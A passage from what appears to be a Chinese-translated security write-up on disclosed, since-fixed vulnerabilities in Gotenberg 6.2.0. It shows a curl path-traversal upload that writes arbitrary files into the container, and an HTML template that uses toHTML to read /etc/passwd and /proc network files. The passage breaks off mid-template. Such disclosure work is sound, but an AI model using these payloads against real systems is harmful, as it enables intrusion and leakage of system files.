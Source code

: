 **附注**:本文中描述的漏洞(CVE-2020–13449、CVE-2020–13450、CVE-2020–13451 和 CVE-2020–1345)已报告给作者，并很快被修复。我要感谢朱利安·纽哈特的快速反应和修复。作者同意并声明，Gotenberg 在这个主要版本(6)中应该只由不对外公开的可信应用程序在内部使用。

事实上，整个系统都是使用微服务架构构建的，其中有一个 Gotenberg 组件完全暴露在外部世界中。

事实上，该系统仅使用 HTML 转换 API，但其公开的方式允许所有未经认证的互联网用户使用**整体 API** — HTML、markdown 和 office，包括 */url* /端点，该端点允许将组件指向互联网上的外部 web url 以生成 PDF 文件。这本身就是一个漏洞，因为允许匿名代理 web 流量，甚至使用它来执行使用我们的客户端基础设施的 DoS 攻击。

因为该组件是开源的，可以在 Docker hub 中获得，所以很容易对其进行非常基本的攻击测试。因此，在使用以下命令启动 Docker 容器后(我特意在这里启动易受攻击的版本 6.2.0，因为这个问题已经在 6.3.0 中得到解决):

```
$ docker run --rm -p 3000:3000 --name gotenberg thecodingmachine/gotenberg:6.2.0
```

我们可以玩玩，试着找一些有趣的攻击。

前两个漏洞**是**微不足道的**，并且很快被发现。但是开发它们的方式更具挑战性。**

# 第一个漏洞—上传任意文件

如果组件接受文件(上传),那么 pentester 首先进行的测试之一就是尝试路径遍历攻击。因此查看[文档](https://thecodingmachine.github.io/gotenberg/)我们可以这样调用 */markdown/* 端点(注意**加粗的**部分):

```
$ curl 'http://$URL_GOTENBERG/convert/markdown' --form files=@index.html --form "files=@test;filename=**../../../tmp/test**" -o res.pdf --header 'Content-Type: multipart/form-data'
```

令人惊讶的是——因为在大多数 web 框架中，这种攻击不会起作用，因为文件名参数输入在框架级别被转义——Gotenberg**实际上**易受攻击,因为它是用 Go lang 编写的，并且使用 net/http 包来处理 http 请求，它在将文件名传递给应用程序之前不会对文件名进行转义，后者也不会对其进行转义。因此，上面的 curl 将文件 *test* 写入 Docker 容器的路径 */tmp/test* 中。这可以通过运行以下命令来验证:

```
$ docker exec -it gotenberg bash -c "ls -la /tmp/"
total 16
drwxrwxrwt 1 root      root      4096 Dec 29 19:10 .
drwxr-xr-x 1 root      root      4096 Dec 29 19:10 ..
drwxr-xr-x 2 root      root      4096 May  1  2020 hsperfdata_root
**-rw------- 1 gotenberg gotenberg   60 Dec 29 19:10 test**
```

# 第二个漏洞—任意文件下载

更棘手的是第二个漏洞。根据 Gotenberg 的文档，Gotenberg 允许转换 markdown 文件——但是转换的方式是通过一个呈现模板的 HTML 文件。模板可以调用一个助手函数 *toHTML* ，该函数实际上读取文件系统中的任何文件，并将 markdown 呈现为 HTML。

正如您可能猜到的那样，这可能导致容器内的任意文件泄漏。就其本身而言，这并不是一个非常严重的漏洞，因为没有多少东西可以利用它，但是正如您稍后将看到的，这个漏洞可以用来造成更多的破坏！

因此，为了了解它是如何工作的，让我们创建一个 HTML(让我们命名为 index.html)文件:

```
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>My PDF</title>
  </head>
  <body>
    <pre style="white-space: pre-wrap;">
      Path:
      {{ .DirPath }}  
      PASSWD:
      {{ toHTML .DirPath "../../../../etc/passwd" }}
      IP:
      {{ toHTML .DirPath "../../../../proc/net/fib_trie" }}
      TCP:
      {{ toHTML .DirPath "../../../../proc/net/tcp" }}
      env:
```